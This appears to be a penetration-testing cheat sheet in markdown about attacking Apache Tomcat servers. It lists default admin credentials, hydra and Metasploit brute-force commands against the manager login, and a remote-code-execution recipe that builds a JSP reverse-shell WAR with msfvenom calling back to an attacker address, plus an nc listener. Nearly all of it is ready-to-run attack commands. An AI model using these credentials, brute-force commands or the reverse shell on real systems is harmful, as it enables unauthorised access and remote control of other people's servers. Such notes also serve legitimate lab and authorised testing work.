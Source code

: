 # 🐈 Tomcat
## No Account
### Default Credentials
admin:admin
tomcat:tomcat
admin:
admin:s3cr3t
tomcat:s3cr3t
tomcat:s3cret
admin:tomcat

### Bruteforce
```bash
# metasploit
msf> use auxiliary/scanner/http/tomcat_mgr_login

# hydra
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

### Passwords Backtrace disclosure
/auth.jsp

## With Account
### Manager - RCE
>You will only be able to deploy a **WAR** file if you have enough privileges (roles: admin, manager and manager-script). Those details can be find under tomcat-users.xml usually defined in /usr/share/tomcat9/etc/tomcat-users.xml (it vary between versions)

#### PoC
```bash
# metasploit
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit

# msfvenom - manually
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.41 LPORT=8083 -f war -o revshell.war
# upload it to tomcat and access it : /revshell/
# host
nc -lvnp 8083
```
